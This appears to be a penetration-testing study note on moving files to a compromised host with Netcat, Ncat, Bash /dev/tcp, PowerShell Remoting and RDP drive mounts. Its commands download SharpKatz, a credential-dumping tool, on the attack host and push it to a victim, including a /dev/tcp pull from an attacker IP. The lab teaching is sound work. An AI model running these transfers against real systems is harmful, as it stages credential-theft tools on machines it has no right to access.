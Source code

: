 # 🚘 Miscellaneous File Transfer

Here we'll see how to transfer files using [Netcat](https://en.wikipedia.org/wiki/Netcat), [Ncat](https://nmap.org/ncat/) and using RDP and PowerShell sessions.

### Netcat

Netcat is used for reading from and writing to network connections using TCP or UDP

**Transfer files ->**

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

Here we use the options for listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard\_streams#Standard\_input\_\(stdin\)) using a single greater-than `>` followed by the filename

and if the compromised machine is using Ncat we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat

```shell-session
 ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**Sending File to Compromised machine**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.

**Ncat**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

***

in scenarios where there's a firewall blocking inbound connections we can  listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework\_4.7\_x64/SharpKatz.exe) as input to Netcat.

```
#On our attack host
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```
#On target machine
nc 192.168.49.128 443 > SharpKatz.exe
```

**Ncat**

```
#On our attack host
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```
#On target machine
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

***

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

**Sending File as Input to Netcat**

<pre class="language-shell-session"><code class="lang-shell-session">#Original Netcat
<strong>sudo nc -l -p 443 -q 0 &#x3C; SharpKatz.exe
</strong><strong>
</strong>#Ncat
sudo ncat -l -p 443 --send-only &#x3C; SharpKatz.exe
</code></pre>

And then our victim connects to ncat Using /dev/tcp to Receive the File

```shell-session
#Victim
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell

If we encounter scenarios where HTTP, HTTPS, or SMB are unavailable we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

Here we will transfer a file from `DC01` to `DATABASE01` and vice versa. We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**

```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

**Create a PowerShell Remoting Session to DATABASE01**

```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**

```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP

We can transfer files using RDP by copying and pasting. We can right-click and copy a file from the Windows machine we connect to and paste it into the RDP session.

If we are connected from Linux, we can use `xfreerdp` or `rdesktop`

As an alternative to copy and paste, we can mount a local resource on the target RDP server. `rdesktop` or `xfreerdp` can be used to expose a local folder in the remote RDP session.

**Mounting a Linux Folder Using rdesktop**

```shell-session
ElFelixi0@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**

```shell-session
ElFelixi0@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
